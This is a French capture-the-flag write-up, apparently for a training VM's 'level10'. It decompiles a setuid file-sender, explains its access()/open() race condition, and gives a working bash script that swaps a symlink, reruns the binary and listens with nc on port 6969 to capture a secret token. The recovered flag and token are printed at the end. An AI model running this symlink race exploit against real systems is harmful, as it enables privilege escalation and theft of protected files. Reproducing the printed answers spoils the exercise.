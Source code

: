 # level10

### Observations:

##### ~/level10:
Je decompile le programme accessible 
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Entrees du programme
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement
Le programme verifie si le chemin_fichier est accessible par l'utilisteur a l'aide de la fonction access. \
Puis se connecte a un serveur avec addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est heberge sur l'addresse ip '127.0.0.1' avec le port '6969'

##### Conclusions
L'ordre d'execution des fonctions creer une fail qui nous permet de 
modifier le fichier pointant a la fin du chemin_fichier pendant la connection.
Cette operation leurre la fonction open sur le fait que nous avons les \
droits sur ce fichier du au fait que la fonction access retient les drois d'ouverture.

### Resolution:
Je creer un script qui effectue trois operations distinctes en parrallele.

La premiere consiste en une boucle qui creer un lien symbolique vers un fichier accessible par l'utilisateur \
pour ensuite le modifier pour pointer vers le fichier ou le token est stocke dans la racine HOME.

La seconde est compose d'une boucle qui execute le programme '~/level10' tout en pointant sur le lien symbolique cree et modifie par la boucle de l'operation precedente.

La derniere est une simple boucle qui recupere les donnees circulant sur le port reseau 6969 et affiche le resultat quand ce n'est pas le contenu du fichier accessible (soit l'executable '~/level10').

Il ne me reste plus qu'a lui donner les droits d'execution et de l'executer pour avoir mon flag.


##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
	echo "link breaker done !"
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)";
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
	echo "listening done !"
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
	echo "exec done !"
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c
	
**token :** feulo4b72j7edeahuete3no7c
